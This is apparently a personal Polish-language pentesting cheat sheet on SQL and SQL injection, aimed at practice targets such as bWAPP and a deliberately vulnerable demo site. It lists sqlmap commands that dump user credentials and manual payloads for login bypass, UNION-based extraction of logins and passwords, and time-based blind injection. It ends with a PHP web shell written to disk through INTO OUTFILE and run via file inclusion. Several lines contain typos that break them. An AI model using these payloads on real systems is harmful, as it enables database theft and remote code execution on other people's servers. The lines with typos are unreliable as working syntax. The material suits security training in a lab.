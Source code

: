 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# sql

**SQLMAP**

{% code overflow="wrap" fullWidth="true" %}
```sql
sqlmap -u "https://hack-yourself-first.com/CarsByCylinders?Cylinders=V8" --dbs

sqlmap -r data.txt

#Enumeracja baz:
sqlmap -u "https://hack-yourself-first.com/CarsByCylinders?Cylinders=V8" --dbs

#Enumeracja tabel bazy:
sqlmap -u "https://hack-yourself-first.com/CarsByCylinders?Cylinders=V8" -D bWAPP --tables
    
#Enumeracja Kolumn tabeli:
sqlmap -u "https://hack-yourself-first.com/CarsByCylinders?Cylinders=V8" -D bWAPP -T users --columns
    
#Dump określonych kolumn tabeli users:
sqlmap -u "https://hack-yourself-first.com/CarsByCylinders?Cylinders=V8" -D bWAPP -T users -c login.password.admin --dump
```
{% endcode %}

{% code overflow="wrap" fullWidth="true" %}
```sql
sudo service mysql start
sudo mysql -u root

CREATE USER 'michal'@'localhost' IDENTIFIED BY 'password';
## każde polecenie kończymy średnikiem!!

#Login -p should be empty (bash history), type password without space 
mysql -u [user] -p [nazwa bazy]

# Sprawdzamy dostępne bazy danych
show databases;
# Przeskakujemy do bazy danych 
use employees;
# Sprawdzamy jakie mamy dostęne tabele
show tables;
# Sprawdzamy jakie są nagłówki wierszy i typy danych.
describe employees;
# Wybieramy wszystkie imiona zaczynające się na Bar
select * from employees WHERE first_name LIKE 'Bar%';
# Wybiera użytkowników których identyfikator jest większy niż 1 oraz nazwa użytkownika nie jest równa john.
SELECT * FROM logins WHERE username != 'john' AND id > 1;
# Wyszukuje wskazany ciąg znaków
select * from <table> where <column> = "<string>";
CREATE TABLE products( id int(6) unsigned auto_increment primary key, product_name varchar(20) not null, product_price float(10,2) not null);


INSERT INTO products (product_name,product_price) VALUES ("Jajka",10);

CREATE DATABASE cyber;
use cyber;

create table blackhacker( id int(4) auto_increment primary key, username varchar(30) not null, password varchar(30) not null, country varchar(10) not null, rank varchar(30));

INSERT INTO blackhacker (username,password,country,rank) VALUES ("Rumcajs", "Balbina2022", "PL", "PRO");

SELECT * FROM whitehacker UNION SELECT * FROM blackhacker;

SELECT * FROM blackhacker UNION SELECT schema_name FROM information_schema.schemata;

SELECT * FROM information_schema.SESSION_STATUS;

SELECT Username,Rank FROM blackhacker WHERE country LIKE "pl" or 1=1 ORDER BY 1 DESC;

SELECT Username,Rank FROM blackhacker UNION SELECT rank,password FROM whitehacker;

SELECT Username,Rank FROM blackhacker INTO OUTFILE "/tmp/black.txt";

UPDATE blackhacker SET Rank="Elite" WHERE id=5;

SELECT product_name, product_price FROM products WHERE product _name LIKE "Jajka" AND substring(version(), 1,1)=5;
SELECT product_name, product_price FROM products WHERE product _name LIKE "Jajka" AND substring(version(), 1,3)=504;

SHOW variables LIKE "%general_log%";

SET global general_log='ON';

SELECT * FROM information_schema.schemata;   ===  show databases;
SELECT SCHEMA_NAME FROM SCHEMATA;

#jak korzystamy z UNION to tabele które łączymy muszą mieć tyle samo kolumn - jak trzeba to dopisujemy np. 1 żeby stworzyć dodatkowe dane w kolumnach
SELECT * FROM blackhacker UNION SELECT schema_name, '1', '1' FROM information_schema.schemata;

#wylistowanie wszystkich wpisów pomimo, że nie znamy żadnego
SELECT Username, Rank FROM blackhacker WHERE username="tratatata" or 1=1 ;- - -";
```
{% endcode %}

**SQL Injection**

<div data-full-width="true">

<figure><img src=".gitbook/assets/1 (29).jpg" alt=""><figcaption></figcaption></figure>

</div>

{% code fullWidth="true" %}
```sql
SELECT * FROM users WHERE user='user' and password='password'

#żeby wywołać błąd dodajemy ' i patrzymy czy jest baza danych i jaka
10.0.2.5/cat.php?id=2'

'#żeby zobaczyć wersję mysql
10.0.2.5/cat.php?id=2 and extractvalue(1, concat("!", version())) = 1

#wyświetlanie całej bazy
10.0.2.5/ cat.php?id=2 or 1=1

SELECT * FROM users WHERE login='bee' and password='bug';
SELECT * FROM users WHERE login='bee' or 1=1 - --'

czyli w oknie do logowania mogę wpisać
bee' or 1=1 - --

#korzystanie z UNION
10.0.2.5/cat.php?id=2 UNION SELECT 1,2,3,4

10.0.2.5/cat.php?id=1 UNION SELECT 1, table_name,3,4 FROM information_schema.tables WHERE table_schema=database()

10.0.2.5/cat.php?id=1 UNION SELECT 1, column_name,3,4 FROM information_schema.columns WHERE table_name="users"

10.0.2.5/cat.php?id=1 UNION SELECT 1,CONCAT(login,':'password),3,4 FROM users

#Time Based SQL injection - usypia server na 3 milisekundy gdy wszystko co jest wcześniej jest true
10.0.2.5/cat.php?id=2 and if(substring(version(),1,1)=5,sleep(3),0)

iron man' and substring(database(),1,1)="b" and sleep(3) -- -
```
{% endcode %}

<div data-full-width="true">

<figure><img src=".gitbook/assets/1 (30).jpg" alt=""><figcaption></figcaption></figure>

</div>

<div data-full-width="true">

<figure><img src=".gitbook/assets/2 (11).jpg" alt=""><figcaption></figcaption></figure>

</div>

<div data-full-width="true">

<figure><img src=".gitbook/assets/3 (4).jpg" alt=""><figcaption></figcaption></figure>

</div>

<div data-full-width="true">

<figure><img src=".gitbook/assets/4 (3).jpg" alt=""><figcaption></figcaption></figure>

</div>

<div data-full-width="true">

<figure><img src=".gitbook/assets/5 (1).jpg" alt=""><figcaption></figcaption></figure>

</div>

* Okreslenie liczby kolumn
* Okreslenie kolumn wyswietlajacych dane
* Okreslenie tabel w bazie
* Okreslenie kolumn dla danej tabeli
* Pobranie danych z tabeli

{% code fullWidth="true" %}
```sql
Iron man' ORDER BY 7-- -

1' UNION SELECT 1,2,3,4,5,6,7 -- -

1' UNION SELECT 1,table_name,3,4,5,6,7 FROM information_schema.tables WHERE table_schema=database() -- -

1' UNION SELECT 1,column_name,3,4,5,6,7 FROM information_schema.columns WHERE table_name="users" -- -

1' UNION SELECT 1,login,password,secret,email,6,7 FROM users  -- -

1' UNION SELECT 1,group_concat(login,':',password,':',secret,':',email,':',admin),3,4,5,6,7 FROM users -- -

RCE:
0' UNION SELECT 1,"<?php system($_GET['cmd']);?>",3,4,5,6,7 INTO OUTFILE '/tmp/cmd.php' -- -
127.0.0.1/rlfi.php?lanquage=/tmp/cmd.php&action=go8cmd=Is -la
```
{% endcode %}
